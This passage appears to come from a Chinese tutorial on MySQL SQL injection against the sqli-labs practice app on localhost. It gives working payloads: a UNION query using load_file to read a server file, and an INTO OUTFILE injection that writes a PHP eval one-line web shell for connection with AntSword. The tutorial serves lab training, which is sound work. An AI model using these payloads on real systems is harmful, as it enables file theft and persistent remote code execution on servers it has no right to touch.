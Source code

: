 #### 从而确定length(database())=8

## mysql读文件
### 前提
* 权限够高
* secure_file_priv不为NULL，需要通过my.ini修改
> ![f17]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f17.png)    
> $\color{red}{设置为空格即可}$    
> ![f18]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f18.png)  
> ![f19]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f19.png)

### 以less-1为例进行读文件

```http
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,load_file('F:\\flag.txt'),3 --+
```

![f20]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f20.png)

## mysql写文件
### 前提
* 权限够高
* 设置变量general_log为ON
> ![f21]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f21.png)

### 以less-7为例
#### 正确界面
![f22]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f22.png)

#### 反复增加引号或括号个数，尝试闭合参数id，最后得出正确界面

```http
http://127.0.0.1/sqli/Less-7/?id=1')) --+
```

#### 可以写入一句话，然后使用蚁剑连接

```http
http://127.0.0.1/sqli/Less-7/?id=-1')) union select 1,2,'<?php eval($_POST["ezy"]);?>' into outfile "F:\\phpstudy_pro\\PHPTutorial\\WWW\\sqli\\Less-7\\1.php" --+
```

![f23]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f23.png)